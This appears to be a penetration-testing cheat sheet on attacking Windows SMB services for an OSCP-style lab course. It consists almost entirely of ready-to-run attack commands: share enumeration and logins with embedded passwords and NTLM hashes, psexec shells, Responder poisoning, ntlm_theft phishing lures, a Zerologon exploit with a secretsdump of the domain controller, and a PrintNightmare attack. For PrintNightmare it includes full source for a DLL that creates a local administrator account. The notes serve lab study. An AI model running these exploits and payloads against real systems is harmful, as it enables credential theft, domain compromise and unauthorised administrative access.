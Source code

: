 ### Enumeration
```
enum4linux -a -v 192.168.211.13
enum4linux -a -v -u '' -p '' ip 
nmap --script "smb-vuln*" -p 445 ip
```
```
NXC enumerate users:
nxc smb 10.10.11.108 -u '' -p '' --rid-brute
```
![image](https://github.com/user-attachments/assets/fbb53200-b7f1-489d-a5fa-80a576a8e1ab)

### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)

### smb list shares and share permissions
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
nxc smb ip -u username -p pwd --shares
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip
smbmap -H ip -u anonymous
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
smbclient //10.10.10.192/admin$ -U 'svc_backup' --pw-nt-hash 9658d1d1dcd9250115e2205d9f48400d
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. prompt off
4. recurse ON
5. mget *
6. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Require writable Admin share and C share  
Require administrators local group  
Require file and printer Sharing  
Tool: psexec.py  
Shell Type: Interactive Shell  
Required Ports: 445 or SMB  
The typical tool to take advantage of this open port is psexec. But this is a very noisy method. Even though AV evasion is not something to worry about in PEN200 (it is on PEN300) But I still want to point it out. Default Windows AV caught this during my tests. Even though I turned it off for all these demonstrations
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
kali: impacket-smbexec timelapse.htb/administrator:'%A2Aj3d9h3%x-]BXE.gI+l6D'@10.10.11.152
```
### Windows built-in command to list smb shares and map smb share to drive
```
net view \\10.191.21.18
net use F: \\10.191.21.18\testshare
net use S: "\\10.191.21.18\GSP Shared Folder"
```
### Netlogon Share
> Active Directory logon scripts are saved in the NETLOGON share by default

![image](https://github.com/user-attachments/assets/4cfcce22-9f4d-4437-bafd-5d41cda7b208)

### LLMNR/NBT-NS Poisoning through SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test
```
###### NTLM_THEFT (https://github.com/Greenwolf/ntlm_theft/tree/master):
ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.
```
Browse to Folder Containing
.url – via URL field
.url – via ICONFILE field
.lnk - via icon_location field
.scf – via ICONFILE field (Not Working on Latest Windows)
autorun.inf via OPEN field (Not Working on Latest Windows)
desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document
.xml – via Microsoft Word external stylesheet
.xml – via Microsoft Word includepicture field
.htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
.docx – via Microsoft Word includepicture field
.docx – via Microsoft Word external template
.docx – via Microsoft Word frameset webSettings
.xlsx - via Microsoft Excel external cell
.wax - via Windows Media Player playlist (Better, primary open)
.asx – via Windows Media Player playlist (Better, primary open)
.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
.jnlp – via Java external jar
.application – via any Browser (Must be served via a browser downloaded or won’t run)

python3 ntlm_theft.py -g all -s 192.168.45.172(The IP address of your SMB hash capture server) -f contracts
```
### Zerologon CVE-2020-1472
```
Detect:
nxc smb ip -u username -p pass -M zerologon

Exploit:
python3 cve-2020-1472-exploit.py Monteverde(dc-name) 10.10.10.172(dc-ip)
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
### Printnightmare CVE-2021-1675 CVE-2021-34527
```
impacket-smbserver test . -smb2support

#include <stdlib.h>
#include <windows.h> //appened code
//name:myDLL.cpp

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add"); //appened code
  	    i = system ("net localgroup administrators dave2 /add"); //appened code
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}


 x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll

python3 printnightmare.py -dll '\\10.21.176.25\test\adduser.dll' 'svc-admin:management2005@10.10.211.60'
```
